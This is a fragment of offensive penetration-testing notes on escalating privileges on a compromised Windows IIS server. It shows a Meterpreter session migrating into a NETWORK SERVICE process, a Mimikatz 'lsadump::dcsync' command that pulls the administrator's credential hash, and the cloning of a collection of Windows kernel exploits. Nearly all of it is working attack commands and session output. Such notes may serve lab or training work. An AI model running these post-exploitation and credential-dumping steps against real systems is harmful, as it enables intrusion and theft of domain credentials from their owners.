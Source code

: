 ```
 1708  396   alg.exe
 1844  612   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe
 2308  612   wmiprvse.exe
 2456  348   logon.scr
 2948  612   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3524  1464  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3608  3524  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
```

and the "migrate":

```
meterpreter > migrate 1844
[*] Migrating from 3608 to 1844...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter >
```

then, use "suggester" to find exploits

### Mimikatz

fetch trunk:

https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20200715

dcsync usage:

https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/

```
./mimicat.exe "lsadump::dcsync /user:administrator" "exit"
```

https://www.fuzzysecurity.com/tutorials/16.html
 

## Kernel exploit

https://github.com/SecWiki/windows-kernel-exploits

```
root@kali:/opt/tools# git clone https://github.com/SecWiki/windows-kernel-exploits.git
Cloning into 'windows-kernel-exploits'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 1592 (delta 7), reused 0 (delta 0), pack-reused 1575
Receiving objects: 100% (1592/1592), 238.64 MiB | 10.17 MiB/s, done.
Resolving deltas: 100% (670/670), done.
Updating files: 100% (433/433), done.
```

